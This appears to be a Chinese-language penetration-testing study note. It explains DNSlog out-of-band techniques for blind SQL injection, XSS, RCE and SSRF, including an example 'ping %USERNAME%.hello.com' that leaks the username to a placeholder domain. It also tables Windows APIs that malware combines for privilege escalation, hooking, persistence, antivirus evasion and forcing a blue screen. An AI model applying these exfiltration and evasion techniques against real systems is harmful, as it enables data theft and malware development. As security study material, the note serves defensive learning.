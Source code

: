 # DNSlog

配合盲打出回显，毕竟没有回显的盲打挺糟心的。

通常配置：SQL/XSS/RCE/SSRF+DNSlog

推荐DNS域名平台：[http://ceye.io ](http://ceye.io/)  给的是三级域名，要把注入信息放到四级域名处（从左往右递增）

这个平台被墙了，Win上命令行挂代理的指令（一次性）是:

set http_proxy=http://127.0.0.1:7890

set https_proxy=http://127.0.0.1:7890

只能用curl，因为ping用的是icmp，走的是ip过不了TCP代理隧道。



或者自己搭：https://github.com/BugScanTeam/DNSLog

参考文章：https://www.cnblogs.com/Xy--1/p/12896599.html

https://xz.aliyun.com/t/9747

https://www.cnblogs.com/zhaijiahui/p/9160913.html  ---有Win常用变量名称

#### 回显原理

DNS，把域名解析成IP的东西。由于DNS在解析时默认无过滤（有过滤可以试着用base64编码后再请求），所以可以用相关参数把解析主机的情况给带出来。

例如： ping %USERNAME%.hello.com  =>解析为  hmdg.hello.com



# WinAPI

### 看似无害，但能组合在一起有害的

| API名称                                                      | 作用                             |
| ------------------------------------------------------------ | -------------------------------- |
| OpenProcessToken、AdjustTokenPrivilege、LookUpPrivilegeValue | 给进程提权                       |
| GetMessage、TranslateMessage、DispatchMessage                | 建立消息循环                     |
| CreateToolhelp32Snapshot、Process32First、Process32Next      | 遍历进程                         |
| SetWindowHookEx、UnhookWindowHookEx、CallNextHookEx          | 给窗口下钩子                     |
| LoadLibrary、GetProcAddress                                  | 加载库并导入函数                 |
| GetModuleFileName、 SHGetSpecialFolderPathW、 CreateDirectory、wsprintfW、OutputDebugStringW、 CopyFileW | 将某程序伪装然后转移至系统路径内 |

------

### 单独就有威胁能力的

| API名称             | 作用                                                         |
| ------------------- | ------------------------------------------------------------ |
| VirtualAllocEx      | 在指定进程的虚拟空间保留或提交内存区域，除非指定MEM_RESET参数，否则将该内存区域置0。用于在内存中执行相关代码从而躲过免杀 |
| RtlAdjustPrivilege  | 超强的提取函数                                               |
| NtRaiseHardError    | 主动触发蓝屏                                                 |
| SeShutdownPrivilege | 把Windows送去睡眠                                            |

------

